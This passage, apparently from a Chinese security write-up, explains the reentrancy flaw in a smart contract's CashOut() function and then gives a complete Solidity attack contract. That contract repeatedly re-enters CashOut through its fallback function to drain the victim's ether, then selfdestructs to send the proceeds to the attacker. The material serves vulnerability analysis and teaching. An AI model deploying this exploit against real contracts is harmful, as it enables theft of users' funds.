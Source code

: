 
了解过 DAO 事件以及重入漏洞可以很明显地看出，CashOut() 存在重入漏洞。

在了解重入漏洞之前，让我们先了解三个知识点：
1. Solidity 的代码执行限制。为了防止以太坊网络被攻击或滥用，智能合约执行的每一步都需要消耗 gas，俗称燃料。如果燃料消耗完了但合约没有执行完成，合约状态会回滚。
1. addr.call.value()()，通过 call() 的方式进行转账，会传递目前所有的 gas 进行调用。
1. 回退函数fallback(): 回退函数将会在智能合约的 call 中被调用。
如果我们调用合约中的 CashOut()，关键代码的调用过程如下图：[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://images.seebug.org/content/images/2018/06/77a39b02-2955-42c1-9b2d-0b941f97ffa3.png-w331s)

由于回退函数可控，如果我们在回退函数中再次调用 CashOut()， 由于满足 _am&lt;=balances[msg.sender] ，将会再次转账，因此不断循环，直至 合约中以太币被转完或 gas 消耗完。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://images.seebug.org/content/images/2018/06/1b6a80af-685d-4443-b2ba-c8311f899757.png-w331s)

根据上述分析写出攻击的代码如下：

```
contract Attack `{`
    address owner;
    address victim;

    function Attack() payable `{` owner = msg.sender; `}`

    function setVictim(address target)  `{` victim = target; `}`

    function step1(uint256 amount)  payable `{`
        if (this.balance &gt;= amount) `{`
            victim.call.value(amount)(bytes4(keccak256("Deposit()")));
        `}`
    `}`

    function step2(uint256 amount)  `{`
        victim.call(bytes4(keccak256("CashOut(uint256)")), amount);
    `}`

    // selfdestruct, send all balance to owner
    function stopAttack()  `{`
        selfdestruct(owner);
    `}`

    function startAttack(uint256 amount)  `{`
        step1(amount);
        step2(amount / 2);
    `}`

    function () payable `{`
        victim.call(bytes4(keccak256("CashOut(uint256)")), msg.value);
    `}`
`}`
```

